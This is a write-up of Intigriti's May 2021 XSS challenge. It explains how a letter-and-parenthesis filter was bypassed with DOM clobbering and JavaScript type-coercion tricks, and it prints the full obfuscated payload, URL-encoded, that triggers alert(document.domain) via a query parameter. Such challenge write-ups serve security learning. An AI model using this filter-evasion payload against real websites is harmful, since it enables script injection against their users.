 ```yaml
---
layout: single
title: Intigriti’s May XSS Challenge by GrumpingouT
date: 2021-05-31
classes: wide
tags:
  - Intigriti
  - XSS
  - Challenge
  - GrumpingouT
---
```


How to execute XSS without letters, parenthesis and quotes? Read more to find out!

![share](/assets/images/intigriti/2021/05/share.jpg)

## Overview

The challenge itself is just a simple captcha program. The captcha contains a form which follows a certain naming pattern where each element has an ID of a single letter set alphabetically.

After a brief analysis, this small part catches my attention.

![vulnerable code](/assets/images/intigriti/2021/05/vulnerable-code.png)

It seems that this piece of code is most likely to be vulnerable. All I need to do is bypass the regular expression `/[a-df-z<>()!\\='"]/gi` to evaluate my code. Simple right? Well, not exactly...

An important note is that I cannot use any letters except “e”. This is tough since we need letters to do our `alert(document.domain)` payload.

However, this comment is is hinting something.

```
Allow letter 'e' because: https://en.wikipedia.org/wiki/E_(mathematical_constant)
```

## Solution

I went into the right direction and tried doing DOM clobbering? We have an element with the ID of ‘e’ which is allowed in the regular expression filter and could be used to build more characters following a well known technique called "Atomic XSS".

![dom clobbering](/assets/images/intigriti/2021/05/dom-clobbering.png)

Unfortunately, the program only evaluates once, which is enough to only decode the payload but not to execute it. I need to find a way to evaluate the code above after it has been decoded. I thought of one solution which is:

```
[]["flat"]["constructor"]("payload goes here")()
```

This proved quite hard since I need at least parenthesis to do this. Using grave accent symbols instead of parenthesis seems to work but not really.

```
[]["flat"]["constructor"]`payload goes here```
```

The problem here is that the payload shouldn’t be a string in order for this to work.

![string evaluation issue](/assets/images/intigriti/2021/05/string-evaluation-issue.png)

This was a major problem since most techniques required at least an equals sign to solve such a problem..

After a few hours messing around inside the devtools console, I managed to get “lucky”. I found two valid methods that solve this problem: `call` and `apply`

![string evaluation solution](/assets/images/intigriti/2021/05/string-evaluation-solution.png)

Now I have a few more literals to encode to get this working.

![preparing-payload](/assets/images/intigriti/2021/05/preparing-payload.png)

The full payload looks like this:

```
[][[e[0]+[]][0][4] + [e+[]][0][21] + [e*e+[]][0][1] + [e+[]][0][6]][[e+[]][0][5] + [e+[]][0][1] + [e+[]][0][25] + [e+[]][0][18] + [e+[]][0][6] + [e+[]][0][16] + [e[0]+[]][0][0] + [e+[]][0][5] + [e+[]][0][6] + [e+[]][0][1] + [e+[]][0][16]][[e+[]][0][5] + [e*e+[]][0][1] + [e+[]][0][21] + [e+[]][0][21]]`${[[e*e+[]][0][1] + [e+[]][0][21] + [e+[]][0][22] + [e+[]][0][16] + [e+[]][0][26] + [[][ [e[0]+[]][0][4] + [e+[]][0][21] + [e*e+[]][0][1] + [e+[]][0][26]]+[]][0][13] + [e[0]+[]][0][2] + [e+[]][0][1] + [e+[]][0][5] + [e[0]+[]][0][0] + [e+[]][0][23] + [e[0]+[]][0][3] + [e[0]+[]][0][1] + [e+[]][0][26] + [0.1+[]][0][1] + [e[0]+[]][0][2] + [e+[]][0][1] + [e+[]][0][23] + [e*e+[]][0][1] + [e[0]+[]][0][5] + [e[0]+[]][0][1] + [[][ [e[0]+[]][0][4] + [e+[]][0][21] + [e*e+[]][0][1] + [e+[]][0][26]]+[]][0][14]]}```
```

Lastly I need to remove the spaces and change the plus signs %2B in order to not mess up my payload when passed as a URL.

```
[][[e[0]%2Be][0][4]%2B[e%2Be][0][21]%2B[e*e%2Be][0][1]%2B[e%2Be][0][6]][[e%2Be][0][5]%2B[e%2Be][0][1]%2B[e%2Be][0][25]%2B[e%2Be][0][18]%2B[e%2Be][0][6]%2B[e%2Be][0][16]%2B[e[0]%2Be][0][0]%2B[e%2Be][0][5]%2B[e%2Be][0][6]%2B[e%2Be][0][1]%2B[e%2Be][0][16]][[e%2Be][0][5]%2B[e*e%2Be][0][1]%2B[e%2Be][0][21]%2B[e%2Be][0][21]]`${[[e*e%2Be][0][1]%2B[e%2Be][0][21]%2B[e%2Be][0][22]%2B[e%2Be][0][16]%2B[e%2Be][0][26]%2B[[][[e[0]%2Be][0][4]%2B[e%2Be][0][21]%2B[e*e%2Be][0][1]%2B[e%2Be][0][26]]%2Be][0][13]%2B[e[0]%2Be][0][2]%2B[e%2Be][0][1]%2B[e%2Be][0][5]%2B[e[0]%2Be][0][0]%2B[e%2Be][0][23]%2B[e[0]%2Be][0][3]%2B[e[0]%2Be][0][1]%2B[e%2Be][0][26]%2B[0.1%2Be][0][1]%2B[e[0]%2Be][0][2]%2B[e%2Be][0][1]%2B[e%2Be][0][23]%2B[e*e%2Be][0][1]%2B[e[0]%2Be][0][5]%2B[e[0]%2Be][0][1]%2B[[][[e[0]%2Be][0][4]%2B[e%2Be][0][21]%2B[e*e%2Be][0][1]%2B[e%2Be][0][26]]%2Be][0][14]]}```
```

Now I can paste the payload as a value to a query string parameter, for example `captcha.php?c=payload`.

Upon entering the URL, all I need is to click the submit button and the payload gets executed.

![alert](/assets/images/intigriti/2021/05/alert.png)

Thanks for reading!